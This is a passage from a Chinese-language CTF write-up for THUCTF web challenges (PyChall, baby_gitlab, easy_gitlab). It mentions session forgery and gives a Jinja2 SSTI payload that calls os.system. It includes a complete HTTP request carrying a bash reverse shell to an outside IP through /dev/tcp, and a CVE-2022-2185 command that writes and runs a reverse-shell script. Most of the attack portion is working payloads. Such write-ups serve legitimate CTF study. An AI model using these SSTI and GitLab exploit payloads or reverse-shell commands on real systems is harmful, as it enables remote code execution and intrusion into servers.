 ```js
 'SESSION_COOKIE_SAMESITE': None,
 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': None, 'JSON_SORT_KEYS': None, 'JSONIFY_PRETTYPRINT_REGULAR': None, 'JSONIFY_MIMETYPE': None, 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093
}
```

然后伪造Session拿flag

### PyChall - flag2

继续SSTI攻击, Server给出

```js
{{self. _TemplateReference__context.cycler[request.values.i]. __globals__ .os.system(request.values.cm) }}
```

请求

```http
POST /download/ HTTP/1.1
Host: nc.thuctf.redbud.info:31427
Content-Length: 199
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://nc.thuctf.redbud.info:31427
Referer: http://nc.thuctf.redbud.info:31427/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJpc0FkbWluIjowLCJ1c2VybmFtZSI6ImEifQ.YzPm2g.cjW-Jf9-HIdkljnPqBgBwEf5UUQ
Connection: close

url=http%3A%2F%2F183.172.229.215%3A44444%2F1&clas=__class__&b=__base__&s=__subclasses__&i=__init__&cm=bash%20-c%20%22%2fbin%2fbash%20-i%20%3e%26%20%2fdev%2ftcp%2f183.172.229.215%2f44443%200%3e%261%22
```

拿到反弹shell, `/readflag` 拿到flag (一血!)

### baby_gitlab

CVE-2021-22205 (完了跟提示一模一样) 拿反弹shell

我花了很久才做出来, 因为wsl的Kali没有公网IP. 最后我在Windows 11上装了netcat和msf...

### easy_gitlab

CVE-2022-2185 cmd `$(echo 'bash -i >& /dev/tcp/183.172.203.224/44444 0>&1' > /tmp/1.sh & chmod +x /tmp/1.sh & /bin/bash /tmp/1.sh)` 拿反弹shell

## Reverse
